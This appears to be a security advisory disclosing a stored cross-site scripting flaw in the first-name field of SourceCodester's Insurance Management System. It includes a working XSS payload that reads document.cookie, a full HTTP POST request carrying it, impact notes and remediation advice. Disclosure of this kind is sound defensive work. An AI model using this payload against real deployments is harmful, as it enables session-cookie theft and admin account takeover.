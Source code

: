 # Stored Cross-Site Scripting Vulnerability in SourceCodester Online Insurance Management System

## Vendor and Product Information:

- **Vendor:** Sourcecodester
- **Product:** Insurance Management System
- Product URL: [Insurance Management System](https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html)

## Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Insurance Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the “First Name” input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.

## Issue Details

- **Vulnerability Name:** Stored XSS in First Name
- **Severity: High**
- **Affected URL:** http://localhost/e-insurance/Script./core/new_account
- **Affected Parameter:** fname
- **HTTP Method:** POST

## Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the First Name input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the “First Name” parameter to insert a malicious JavaScript Code that can also access the authentication cookies.

## Proof Of Concept

1. Configure a web proxy in your browser.
2. Navigate to the URL in the browser http://localhost/e-insurance/Script./ and click on “**New Account**”.
3. Fill in the desired data in the input fields and click on Create Account. Intercept the request in the web proxy. Modify the **fname** parameter as shown below and send the request to the server.
    
    ```bash
    fname=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&lname=Demo&gender=Male&phone=889790987&city=Demo&street=Demo&email=demo@demo.com&password=12345678&submit=1
    ```
    
4. The account is successfully created.
5. In the browser having admin account logged in, navigate to the users section and see the XSS being executed with the authentication cookies as well, which will result in the Account Takeover of **Admin.**

https://drive.google.com/file/d/1yTIeXAPs3PJcQwj9gxhvs92zTdBwKGVB/view?usp=sharing

## Payload:

```bash
fname=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&lname=Demo&gender=Male&phone=889790987&city=Demo&street=Demo&email=demo@demo.com&password=12345678&submit=1
```

## Request:

```bash
POST /e-insurance/Script./core/new_account HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 350
Cookie: PHPSESSID=klf9ln8ogrll5cv5gdusqnln9u; __insuarance__logged=1; __insuarance__key=AGURMU83J20CB8T91A05

fname=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&lname=Demo&gender=Male&phone=889790987&city=Demo&street=Demo&email=demo@demo.com&password=12345678&submit=1
```

## Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites. 

## Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.

## References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

## Weakness Enumeration:

[CWE-79](https://cwe.mitre.org/data/definitions/79.html)

---

This report highlights the Stored XSS vulnerability present in the fname parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.